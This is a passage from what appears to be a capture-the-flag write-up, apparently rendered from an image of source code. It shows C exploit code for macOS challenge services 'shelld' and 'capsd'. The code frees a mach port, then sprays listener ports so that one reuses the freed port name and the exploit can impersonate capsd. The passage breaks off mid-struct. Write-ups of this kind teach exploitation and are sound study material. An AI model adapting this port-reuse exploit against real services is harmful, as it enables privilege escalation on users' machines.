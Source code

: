 ```c
    }
}

int main(int argc, const char * argv[]) {
    mach_port_t shelld;
    if (bootstrap_look_up(bootstrap_port, "net.saelo.shelld", &shelld) != KERN_SUCCESS) {
        printf("Couldn't find shelld!\n");
        return -1;
    }
    
    mach_port_t capsd;
    if (bootstrap_look_up(bootstrap_port, "net.saelo.capsd", &capsd) != KERN_SUCCESS) {
        printf("Couldn't find capsd!\n");
        return -1;
    }
    
    deallocPortInShelld(shelld, capsd);
    
    // shelld's port to capsd is now deallocated
    // [Part two here]
}
```

The next step is to register a pwn session in shelld, then create ports and repeatedly send them to shelld. If we're lucky, one of them will get the same number as the old port to capsd.

```c
    // Part two

    // Create pwn session
    char *pwnSession = malloc(4096); // We will later see why this is required
    memset(pwnSession, 'A', 4095);
    pwnSession[4095] = 0;
    
    if (create_session(shelld, pwnSession) != KERN_SUCCESS) {
        printf("Failure to create session!\n");
        return -1;
    }
    
    // We will need this later to dispatch our server
    dispatch_queue_t pwnQueue = dispatch_queue_create("pwn.server", NULL);
    
    mach_port_t listenerPort;
    for (int i = 0; i < TRIES; i++) {
        printf("Try %d\n", i);
        // Create port, register with session
        mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &listenerPort);
        mach_port_insert_right(mach_task_self(), listenerPort, listenerPort, MACH_MSG_TYPE_MAKE_SEND);
        if (register_listener(shelld, pwnSession, listenerPort) != KERN_SUCCESS) {
            printf("Failure to register port with session!\n");
            return -1;
        }
        
        // Spawn our server, in case we succeed
        dispatch_async(pwnQueue, ^{
            char buf[2048];
            if (mach_msg((mach_msg_header_t*)buf, MACH_RCV_MSG|MACH_MSG_OPTION_NONE|MACH_RCV_TIMEOUT, 0, 2048, listenerPort, 1, 0) == KERN_SUCCESS) {
                // Succeded!
                // Now send reply
                typedef struct {
                    mach_msg_header_t Head;
                    NDR_record_t NDR;
```